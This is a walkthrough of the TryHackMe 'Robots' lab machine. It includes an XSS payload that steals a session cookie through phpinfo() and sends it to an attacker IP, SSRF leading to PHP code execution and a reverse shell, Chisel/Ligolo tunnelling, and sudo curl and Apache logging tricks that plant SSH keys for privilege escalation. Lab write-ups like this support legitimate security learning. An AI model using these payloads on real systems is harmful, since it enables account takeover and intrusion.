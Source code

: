 🧠 TryHackMe: Robots — Machine Walkthrough

Author: [0xb0b] • Difficulty: Medium-Hard
Tags: XSS, Cookie Theft via phpinfo(), SSRF → RCE, Docker Escape, SSH Hijack, Sudo Abuse, PrivEsc

    “A small tribute to Asimov, and a big exercise in chaining web exploits like a beast.”

🔍 Recon — Port & Web Enumeration

Initial nmap reveals:

    22/tcp → SSH

    80/tcp → Apache2

    9000/tcp → Apache2 default page

A robots.txt reveals 3 juicy paths:

/harming/humans  
/ignoring/human/orders  
/harm/to/self  

    /harm/to/self hosts a login page

    Others return 403 Forbidden

    Port 9000 gives nothing useful

Using gobuster inside /harm/to/self/ uncovers:

    admin.php (unauthorized access)

    Registration is allowed via username + DOB

🧠 Password = md5(username + ddmm)
🧰 Used CyberChef for hash generation
🧪 Example: md5("0xb0b0101")
🧬 Reflected XSS → Admin Session Hijack via phpinfo()

Logged in user input is reflected. Payload:

<script>alert("XSS")</script>

HttpOnly flag blocks cookie theft directly, but phpinfo() (from /server_info.php) leaks session memory.
⚙️ XSS Payload to Steal Admin Cookie via phpinfo():

var url = "http://robots.thm/harm/to/self/server_info.php";
var attacker = "http://10.14.90.235/exfil";
var xhr = new XMLHttpRequest();

xhr.onreadystatechange = function() {
  if (xhr.readyState == XMLHttpRequest.DONE) {
    var match = xhr.responseText.match(/PHPSESSID=([a-zA-Z0-9]+)/);
    if (match) {
      fetch(attacker + "?cookie=" + match[1]);
    }
  }
};

xhr.open("GET", url, true);
xhr.send(null);

🕳️ Served via:

<script src="http://10.14.90.235/legit_user.js"></script>

Admin accesses the page → cookie gets exfiltrated → swap in the session ID → You're now Admin.
💥 SSRF → Remote Code Execution (RCE)

admin.php lets us test external URLs.

🛠️ Used Python HTTP server:

python3 -m http.server 80

    Served whoami.php with:

<?php system('whoami'); ?>

🧠 Confirmed PHP execution
➡️ Dropped a PentestMonkey reverse shell
📞 Callback to listener = shell as www-data
🐳 Docker Escape Enumeration

Inside the container:

    Found .dockerenv

    robots.thm resolves locally → Docker container

    No DB on localhost — started internal Docker net scan

⚙️ Ligolo-ng TUN Setup:

sudo ip tuntap add user $(whoami) mode tun ligolo
sudo ip link set ligolo up
sudo ip route add 172.18.0.0/24 dev ligolo

Proxy / Agent:

./proxy -selfcert
./agent -connect 10.14.90.235:11601 --ignore-cert

🧠 Scanned 172.18.0.0/24 → Found 172.18.0.2 running MySQL
🔄 Chisel Port Forward → MySQL Access

Ligolo failed to forward MySQL properly
➡️ Switched to Chisel:
On Attacker:

./chisel server --reverse --port 51234

On Victim:

./chisel client 10.14.90.235:51234 R:3306:172.18.0.2:3306

🎯 Now accessible at 127.0.0.1:3306
🧠 mysql -h 127.0.0.1 -u robots -p

Database → users table → Discovered user rgiskard with hashed password.
🔓 Cracked with Double-MD5 Generator:

md5(md5(username + ddmm))

🧠 Brute forced ddmm combinations → recovered login hash
➡️ Gained SSH access as rgiskard
⚡ Privilege Escalation → dolivaw (via Sudo Wildcard Abuse)

As rgiskard, found sudo rights:

(ALL) NOPASSWD: /usr/bin/curl

Used curl wildcard abuse to overwrite ~/.ssh/authorized_keys of dolivaw:

sudo -u dolivaw curl 127.0.0.1/ -o dummy file:///tmp/id_rsa.pub -o /home/dolivaw/.ssh/authorized_keys

➡️ Login as dolivaw via custom private key
🧠 Got user flag
👑 Root Privilege Escalation — Apache Logging Exploit

dolivaw can sudo apache2 with full config:

sudo apache2 -f /tmp/apache2.conf -k start

🧨 Custom Apache Config:

ServerRoot "/tmp/myapache"
LoadModule mpm_event_module /usr/lib/apache2/modules/mod_mpm_event.so
Listen *:7777
ErrorLog /tmp/error.log
LogFormat "ssh-rsa AAAA... attacker@host" rootkey
CustomLog /root/.ssh/authorized_keys rootkey

🔥 Start server → Send HTTP request → Apache logs the SSH key to root’s authorized_keys

curl http://localhost:7777

➡️ SSH as root
🧠 Grab root flag
